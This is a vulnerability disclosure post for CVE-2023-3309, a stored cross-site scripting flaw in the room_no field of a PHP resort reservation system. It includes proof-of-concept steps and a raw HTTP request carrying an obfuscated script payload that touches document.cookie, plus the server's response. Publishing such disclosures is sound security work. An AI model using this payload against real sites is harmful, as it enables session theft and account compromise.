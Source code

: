 ```yaml
---
title: CVE POC (2023)
date: 2023-06-19 03:24:23 +0530
categories: [cve, poc]
tags: [cve]
---
```



## CVE-2023-3309

##### TITLE: **Sourcecodester's resort management system v1.0 is vulnerable to authenticated stored cross-site scripting vulnerability via room_no parameter on page=manage_room.**

##### DATE: **18 June, 2023**

##### AUTHOR: **Krishna Agarwal (kr1shna4garwal)**

##### VENDOR HOMEPAGE: **www.sourcecodester.com**

##### SOFTWARE LINK: [**Resort Revervation System**](https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html)

##### EFFECTED VERSION: **v1.0**

##### CVSS 3.1 Vector String: **CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:L/I:L/A:N**

##### VULNERABILITY NAME: **Stored Cross-site scripting**

##### REFERENCES:

- [**CVE.ORG**](https://www.cve.org/CVERecord?id=CVE-2023-3309)
- [**NVD.NIST.GOV**](https://nvd.nist.gov/vuln/detail/CVE-2023-3309)
- [**CVEDETAILS.COM**](https://www.cvedetails.com/cve/CVE-2023-3309/)

##### Proof Of Concept:

```
1. Open http://localhost/php-sqlite-rrs/login.php and authenticate yourself with valid credentials.
2. Click on Room List
3. Then click on Add room
4. Input the [1] in Room/Cottage Number field and other data in other fields
5. Save it!
```

##### VULNERABLE RAW REQUEST:

```
POST /php-sqlite-rrs/Master.php?a=save_room HTTP/1.1
Host: 192.168.1.2
Content-Length: 242
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.2
Referer: http://192.168.1.2/php-sqlite-rrs/?page=manage_room
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=hkuargeb92g5kqkk0mvpajm62u
Connection: close

formToken=%242y%2410%24tDECmereqkQhta%2Fe7BBYL.drDbK8XX1ciC29umwsu4G%2FhCI3uePKe&room_id=&room_no=a%3Cscript%2F%22%3Ca%22%2Fsrc%3Ddata%3A%3D%22.%3Ca%2C%5Bdocument.cookie%5D.some(confirm)%3E&name=Test007&description=Test007&price=1337&status=1
```

##### VULNERABLE RAW RESPONSE:

```
HTTP/1.1 200 OK
Date: Mon, 12 Jun 2023 06:13:37 GMT
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.2.4
X-Powered-By: PHP/8.2.4
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 66
Connection: close
Content-Type: text/html; charset=UTF-8

{"status":"success","msg":"New Room has been addedd successfully"}
```

[![cve-2023-3309.png](https://i.postimg.cc/0NZ0NcZ4/kr1shna4garwal-2023-06-19-at-11-13-51-AM.png)](https://postimg.cc/p9hFGQwQ)
